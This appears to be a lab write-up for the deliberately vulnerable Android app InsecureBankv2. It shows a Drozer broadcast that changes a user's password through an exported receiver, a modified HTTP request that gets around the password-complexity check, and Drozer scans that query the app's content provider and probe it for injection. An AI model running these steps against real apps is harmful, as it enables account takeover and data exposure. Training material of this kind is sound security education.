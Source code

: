 # Insecure Bank v2

## Setup

```
git clone https://github.com/dineshshetty/Android-InsecureBankv2.git
cd AndroLabServer
pip install -r requirements.txt
python app.py
```

The server starts running on port 8888.

Install the app on your phone and connect to the same network as the server.

After opening the app on your phone, go to preferences and add your server's IP and port number.

Log in using the credentials given in the documentation.

-----

Checklist

- [x] Flawed Broadcast Receivers
- [ ] Intent Sniffing and Injection
- [ ] Weak Authorization mechanism
- [ ] Local Encryption issues
- [ ] Vulnerable Activity Components
- [ ] Root Detection and Bypass
- [ ] Emulator Detection and Bypass
- [ ] Insecure Content Provider access
- [ ] Insecure Webview implementation
- [ ] Weak Cryptography implementation
- [ ] Application Patching
- [ ] Sensitive Information in Memory
- [ ] Insecure Logging mechanism
- [ ] Android Pasteboard vulnerability
- [ ] Application Debuggable
- [ ] Android keyboard cache issues
- [ ] Android Backup vulnerability
- [ ] Runtime Manipulation
- [ ] Insecure SDCard storage
- [ ] Insecure HTTP connections
- [ ] Parameter Manipulation
- [ ] Hardcoded secrets
- [ ] Username Enumeration issue
- [ ] Developer Backdoors
- [x] Weak change password implementation

-----

## Flawed Broadcast Receivers

In AndroidManifest.xml, we have this code:

```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
    <intent-filter>
        <action android:name="theBroadcast"/>
    </intent-filter>
</receiver>
```

You can learn more about it over [here](https://developer.android.com/guide/components/broadcasts) and [here](https://developer.android.com/guide/components/intents-filters).

Essentially, a broadcast receiver is a form of intent. Intents themselves are of two types: explicit and implicit. Explicit intents need the exact application name that is supposed to handle the action, whereas implicit intents can give you the option to choose between several apps that can handle the intent.

"By declaring an intent filter for an activity, you make it possible for other apps to directly start your activity with a certain kind of intent. Likewise, if you do not declare any intent filters for an activity, then it can be started only with an explicit intent."

We see that it uses the class MyBroadCastReceiver.java, so we'll go over the code in that file.

This class takes the phone number and new password from the previous activity.

```
String phn = intent.getStringExtra("phonenumber");
String newpass = intent.getStringExtra("newpass");
```

In order to understand why, where and how this broadcast is actually used, we search for "theBroadcast" and we find that it is used in ChangePassword.java as follows:

```
public void broadcastChangepasswordSMS(String phoneNumber, String pass) {

    if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
        System.out.println("Phone number Invalid.");
        return;
    }

    Intent smsIntent = new Intent();
    smsIntent.setAction("theBroadcast");
    smsIntent.putExtra("phonenumber", phoneNumber);
    smsIntent.putExtra("newpass", pass);
    sendBroadcast(smsIntent);

}
```

So if we can create such an intent in another app, we can change the password of the user by calling the Context.sendBroadcast(Intent) as mentioned in the [BroadcastReceiver](https://developer.android.com/reference/android/content/Context#sendBroadcast(android.content.Intent)) documentation.

In order to save time, we can also use Drozer's `app.broadcast.send` to quickly send a broadcast without having to create an app.

```
dz> run app.broadcast.send --action theBroadcast MyBroadCastReceiver --extra string phonenumber 1234 --extra string newpass asdf
```

Take a look at [this](https://hackerone.com/redirect?signature=e9b262c23bb3df8ec37850c763775bafb8b7acca&url=https%3A%2F%2Foldbam.github.io%2Fandroid%2Fsecurity%2Fandroid-vulnerabilities-insecurebank-broadcast-receivers) link.

Similar example can be found in [this](https://hackerone.com/reports/289000) report.

-----

## Weak change password implementation

Client-side check requires password to be complex, but can be circumvented by intercepting and modifying request through a proxy.

```
POST /changepassword HTTP/1.1
Content-Length: 46
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&newpassword=dinesh
```

-----

### Drozer

```
# getting attack surface
dz> run app.package.attacksurface com.android.insecurebankv2
Attack Surface:
  5 activities exported
  1 broadcast receivers exported
  1 content providers exported
  0 services exported
    is debuggable

# content-providers
dz> run app.provider.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  Authority: com.android.insecurebankv2.TrackUserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False

# content-provider URIs
dz> run scanner.provider.finduris -a com.android.insecurebankv2
Scanning com.android.insecurebankv2...
Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider/
Unable to Query  content://com.google.android.gms.games
Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider
Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
Unable to Query  content://com.google.android.gms.games/

Accessible content URIs:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

# content-providers retrieve information

dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
| id | name   |
| 1  | dinesh |
| 2  | dinesh |
| 3  | dinesh |

# content-provider injection
dz> run scanner.provider.injection -a com.android.insecurebankv2
Scanning com.android.insecurebankv2...
Not Vulnerable:
  content://com.android.insecurebankv2.TrackUserContentProvider/
  content://com.google.android.gms.games
  content://com.google.android.gms.games/
  content://com.android.insecurebankv2.TrackUserContentProvider

Injection in Projection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

Injection in Selection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
```

